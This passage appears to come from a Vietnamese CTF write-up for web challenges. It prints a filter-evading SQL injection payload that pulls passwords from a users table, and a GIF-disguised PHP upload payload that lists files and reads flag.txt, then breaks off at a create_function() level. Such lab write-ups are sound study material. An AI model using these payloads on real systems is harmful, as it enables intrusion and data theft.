 ![image](https://user-images.githubusercontent.com/75429369/179978149-ee531064-0cb0-43e9-a6d8-e417cd8e04d4.png)

Bypass chỗ này bằng cách sau

![image](https://user-images.githubusercontent.com/75429369/179978630-983e36d5-e2b7-4da4-876a-22f5fbdc7b8a.png)

Payload thì làm i hệt như level 1

```
1 and 1=0 uniunionon seleselectct password,password frofromm users where id=1 -- '
```

![image](https://user-images.githubusercontent.com/75429369/179978918-23302c26-493c-405a-8256-9d4e5e04902b.png)

# level08

Bài này cho ta upload một file gif, đoạn code kiểm tra file gif như sau

![image](https://user-images.githubusercontent.com/75429369/180018398-20f7a068-91f5-4732-90cf-96a26cf5ac90.png)

Ta thấy code có sử dụng `exif_imagetype`, sau khi tìm hiểu hàm này trên [đây](https://www.php.net/manual/en/function.exif-imagetype.php) thì ta có thể biết rằng hàm chỉ kiểm tra file có phải gif hay không thôi, còn phần body sẽ bị bỏ qua, ta sẽ inject một đoạn code php vào phần body này, và sử dụng magic byte để khi đi qua hàm xử lí thì nó sẽ hiểu file này là gif, tham khảo magic byte [này](https://medium.com/@d.harish008/what-is-a-magic-byte-and-how-to-exploit-1e286da1c198). Payload file như sau

```
GIF87a
<?php echo join(" ",scandir('.')); ?>
```

_Note: ban đầu mình có thử function để chạy code execution luôn mà không được, hình như các function đã bị chặn gần hết, test với payload trên thì được_

![image](https://user-images.githubusercontent.com/75429369/180021542-cc7d87cf-abcb-4459-9cb5-b662697c7da7.png)

```
GIF87a
<?php echo readfile('flag.txt'); ?>
```

![image](https://user-images.githubusercontent.com/75429369/180022117-f4923ddf-38b8-4a1e-9f80-03ac40721061.png)

# level15

Bài này mới vô cho ta declare hàm nào đó với `create_function()`, source lưu ý

![image](https://user-images.githubusercontent.com/75429369/180024889-b10b1bd5-98a2-4bb1-83a7-089e1f7cac45.png)

Ban đầu, mình thử nhập như gợi ý là `echo 1337;` thôi nhưng mà mình quên `;` thì web hiện như sau

![image](https://user-images.githubusercontent.com/75429369/180025271-0f0823d2-faf1-4e0e-85bd-e8276ff4dc49.png)
